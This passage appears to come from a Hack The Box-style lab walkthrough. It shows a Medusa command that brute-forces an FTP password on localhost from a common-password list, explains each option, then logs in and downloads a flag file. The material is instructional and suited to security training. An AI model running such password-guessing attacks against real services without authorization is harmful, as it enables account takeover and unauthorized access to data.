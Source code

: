 
```shell-session
smoothment@htb[/htb]$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

GENERAL: Parallel Hosts: 1 Parallel Logins: 5
GENERAL: Total Hosts: 1
GENERAL: Total Users: 1
GENERAL: Total Passwords: 197
...
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ... Password: ... [SUCCESS]
...
GENERAL: Medusa has finished.
```

The key differences here are:

- `-h 127.0.0.1`: Targets the local system, as the FTP server is running locally. Using the IP address tells medusa explicitly to use IPv4.
- `-u ftpuser`: Specifies the username `ftpuser`.
- `-M ftp`: Selects the FTP module within Medusa.
- `-t 5`: Increases the number of parallel login attempts to 5.

### Retrieving The Flag

Upon successfully cracking the FTP password, establish an FTP connection. Within the FTP session, use the `get` command to download the `flag.txt` file, which may contain sensitive information.:


```shell-session
smoothment@htb[/htb]$ ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||25926|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           35 Sep 05 13:17 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||37251|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************************************|    35      776.81 KiB/s    00:00 ETA
226 Transfer complete.
35 bytes received in 00:00 (131.45 KiB/s)
ftp> exit
221 Goodbye.
```
